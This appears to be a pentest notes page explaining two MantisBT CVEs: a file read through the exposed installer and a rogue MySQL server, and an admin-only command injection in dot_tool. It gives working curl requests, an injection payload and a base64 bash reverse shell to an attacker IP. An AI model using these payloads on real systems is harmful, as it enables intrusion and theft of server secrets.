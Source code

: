 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Mantis BT

[Mantis Bug Tracker](https://github.com/mantisbt/mantisbt), commonly referred to as MantisBT, is an open-source, web-based issue tracking system designed to help manage software development projects by streamlining the process of reporting, tracking, and resolving bugs or feature requests. Originally developed in PHP, MantisBT supports multiple back-end databases, including MySQL, PostgreSQL, and MariaDB, and can be deployed on a variety of operating systems and web servers.

The system provides a structured environment where users can submit issues, track their status, assign them to team members, and monitor progress through customizable workflows. Role-based access control is integrated to define what different types of users—such as reporters, developers, and administrators—can view or modify. MantisBT also supports notifications, time tracking, attachments, and relationships between issues, enabling a more comprehensive understanding of project health and ongoing tasks.

## LFI

Mantis BT versions up to `2.5.2` are affected by a LFI vulnerability ([CVE-2017-12419](https://www.cve.org/CVERecord?id=CVE-2017-12419)) which stems from a post-installation misconfiguration combined with a permissive database setting. The vulnerability arises when the MantisBT `/admin` directory—used during initial setup—is not deleted after installation, despite official documentation explicitly advising its removal as a security precaution.

<figure><img src="../../.gitbook/assets/mantis_admin_dir.png" alt=""><figcaption></figcaption></figure>

If this directory remains accessible and the MySQL or MariaDB server is configured with the `LOCAL INFILE` capability enabled (controlled by `mysqli.allow_local_infile` in `php.ini` or through MySQL client configuration), an attacker can exploit this scenario to **read arbitrary files** from the MantisBT server. The attack leverages MySQL’s ability to load data from the server’s local filesystem using crafted SQL queries issued via the exposed installation interface. The above CVE link includes the [original vulnerability report](https://mantisbt.org/bugs/view.php?id=23173) which has the reproduction steps:

1. Run [Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server) and specify the target file:

```bash
$ php roguemysql.php
Enter filename to get [/etc/passwd] > /var/www/html/bugtracker/config/config_inc.php
[.] Waiting for connection on 0.0.0.0:3306
```

2. Browse to the endpoint below:

{% code overflow="wrap" %}
```bash
$ curl --path-as-is -s "http://mantisbt-instance/bugtracker/admin/install.php?install=3&hostname=192.168.45.170"
```
{% endcode %}

3. Check the server:

{% code overflow="wrap" %}
```bash
[+] Connection from 192.168.155.204:36486 - greet... auth ok... some shit ok... want file...
[+] /var/www/html/bugtracker/config/config_inc.php from 192.168.155.204:36486:
<?php
$g_hostname               = 'localhost';
$g_db_type                = 'mysqli';
...
```
{% endcode %}

## Authenticated Command Injection

Mantis BT versions prior to `2.22.1` are affected by a a post-authentication command injection vulnerability ([CVE-2019-15715](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/)) which is **exploitable by users with administrative access**. The issue stems from two configuration options—`dot_tool` and `neato_tool`—which define the executables used to generate relationship and workflow graphs via Graphviz. These values are directly embedded into shell commands without proper sanitization and executed using PHP’s `proc_open()` function.

By injecting shell metacharacters (e.g. using `;`), an attacker can execute arbitrary commands on the server. For example, setting `dot_tool` to a payload like `dot; php -r 'system("id");'` results in code execution when the graph is generated. Although authentication is required, this vulnerability provides a straightforward path to remote code execution if admin credentials are compromised or misused.

1. Login to the Mantis BT instance as an `administrator`
2. Navigate to _Manage_ → _Manage Configuration_ → _Configuration Report_ and scroll down to _Create Configuration Option_
3. Type _relationship\_graph\_enable_ into _Configuration Option_ with a value of `1` to enable the graphs and hit _Create Configuration Option_
4. Scroll back down to _Create Configuration Option_ and type _dot\_tool_ into _Configuration Option_ with a value of the desired payload and hit _Create Configuration Option_

```bash
# Reverse shell payload
$ echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.170/80 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTcwLzgwIDA+JjEnCg==
```

<figure><img src="../../.gitbook/assets/mantis_rce_payload.png" alt=""><figcaption></figcaption></figure>

6. Browse to [http://mantis/workflow\_graph\_img.php](http://mantisbt/workflow_graph_img.php)

{% code overflow="wrap" %}
```bash
$ curl -s --path-as-is "http://mantis/bugtracker/workflow_graph_img.php" -H "Cookie: PHPSESSID=a2ksqfpkqkv3esgckdvjhcu1b6; MANTIS_secure_session=1; MANTIS_STRING_COOKIE=Tgl-0N5B643JKwIwNgD9s5dKRU_gdBsXawwO7p3ZaGM2ZI4gckyB84AmBRq-IFA7; MANTIS_PROJECT_COOKIE=0"
```
{% endcode %}
